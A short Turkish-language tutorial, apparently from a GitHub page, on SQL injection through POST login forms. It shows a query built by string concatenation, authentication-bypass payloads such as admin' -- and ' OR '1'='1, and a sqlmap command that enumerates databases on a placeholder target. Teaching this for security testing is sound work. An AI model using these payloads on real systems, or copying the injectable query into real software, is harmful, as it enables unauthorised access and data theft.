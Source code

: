

📌 SQL Enjeksiyonu (SQLi) - POST Metodu Üzerinden Saldırı
POST tabanlı SQL Injection, kullanıcının girdiği verilerin HTTP POST isteği ile sunucuya gönderildiği durumlarda ortaya çıkar. Genellikle giriş formları, arama kutuları ve kullanıcı kayıt formları gibi yerlerde görülür.

1️⃣ POST SQL Injection Mantığı
Bir giriş formu düşünelim:
html
```html
<form action="login.php" method="POST">
<input type="text" name="username">
<input type="password" name="password">
<input type="submit" value="Login">
```
</form>

Eğer arka plandaki SQL sorgusu güvenli değilse, şu şekilde olabilir:
sql
```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

Bu durumda, username veya password alanına zararlı SQL kodları enjekte edilebilir.

2️⃣ Manuel Olarak POST SQLi Testi
📌 Hedef Site: https://target.com/login.php
📌 POST Verisi:
plaintext
```sql
username=admin&password=123456
```

Test etmek için aşağıdaki zararlı girişler denenebilir:

🔹 1. Şifreyi Atlatma
Eğer uygulama doğrudan SQL sorgusuna değerleri ekliyorsa, şu gibi girişler ile kimlik doğrulama atlanabilir:
plaintext
```sql
username=admin' --
password=1234
```

Veya:
plaintext
```sql
username=admin' OR '1'='1
password=anything
```

📌 Açıklama: Eğer giriş başarılı olursa, 1=1 her zaman TRUE döndüğünden, SQL sorgusu kullanıcıyı yetkili gibi kabul edebilir.

3️⃣ SQLmap ile POST SQLi Testi
SQLmap, POST isteklerini test etmek için mükemmel bir araçtır.
🔹 1. Basit Test (POST SQLi)
Öncelikle, SQLmap ile POST isteğini test edelim:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```
